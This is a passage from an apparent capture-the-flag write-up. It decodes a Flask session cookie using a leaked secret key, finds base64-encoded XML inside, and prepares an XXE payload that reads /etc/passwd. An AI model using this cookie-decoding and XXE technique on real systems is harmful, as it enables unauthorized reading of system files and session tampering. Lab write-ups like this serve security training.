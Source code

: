 ```
Referer: http://127.0.0.1/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw1zE1vgjAAxvGvsvS8A3XGZBybtnRoIS19kd5sugSUAkOyMY3ffRqz45PfP88VdEvsQHoFLx6kQJOCBrIoccqNtHNvIrSflv965tqDpmuVjShoiMVecoPlTpNmG-LHRVczvntf6QKVdGTyiNzDH9slHRY25CIha0eb0mfFXNimNVBP1si3EGWt4nL0ygx1F8w2KcZn__xzEDHPxpqf3HT3czDoS6iG87hsLM6zwyrfe2aEW73_97i0s7M0H3QWvkvyc6l613JIJnB7BePQ9vMZpMntDzT_U6g.YYBZ1Q.uFa2ccvwdovX-iN555lAX9IUMYE
Connection: close

username=a&version=1.0.0
```

Also, we should notice once again that our name is reflected to us. Trying to fuzz with SSTI and PHP inputs isn't working, though. Peeking into the `/var/www/game` directory, we notice that its another python website so maybe we can mess with cookies again and hope that the secret key is shared between websites.

```
chiv@spider:~$ ls /var/www/game/
ls: cannot access '/var/www/game/templates': Permission denied
ls: cannot access '/var/www/game/__MACOSX': Permission denied
ls: cannot access '/var/www/game/__pycache__': Permission denied
ls: cannot access '/var/www/game/wsgi.py': Permission denied
ls: cannot access '/var/www/game/app.py': Permission denied
ls: cannot access '/var/www/game/game.ini': Permission denied
ls: cannot access '/var/www/game/static': Permission denied
app.py  game.ini  __MACOSX  __pycache__  static  templates  wsgi.py
```

Taking our cookie and decoding it like last time, we notice that there's some `lxml` property and another base64 encoded value.

```
└─# flask-unsign --decode -c '.eJw1zE1vgjAAxvGvsvS8A3XGZBybtnRoIS19kd5sugSUAkOyMY3ffRqz45PfP88VdEvsQHoFLx6kQJOCBrIoccqNtHNvIrSflv965tqDpmuVjShoiMVecoPlTpNmG-LHRVczvntf6QKVdGTyiNzDH9slHRY25CIha0eb0mfFXNimNVBP1si3EGWt4nL0ygx1F8w2KcZn__xzEDHPxpqf3HT3czDoS6iG87hsLM6zwyrfe2aEW73_97i0s7M0H3QWvkvyc6l613JIJnB7BePQ9vMZpMntDzT_U6g.YYBXeA.GMkFDpCNWkCjWNLF9nIVQ3G3dxc' --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942 
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}
```

Using `echo` and piping the base64 content to `base64` via `echo '<long string>' | base64 -d` shows us that the value of the `lxml` key is some sort of base64 encoded xml content.

```
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>a</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

We should notice two things: there is a `is_admin` property and the `username` property seems to be the one that is reflected on the website. The `is_admin` property is a dead end, changing it to 1 doesn't actually do anything, so let's attempt some XXE (XML External Entity). It appears that the version number in our `POST` request is the one that appears in the XML. I will be basing our payload on a XXE template from PayloadAllTheThings.

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```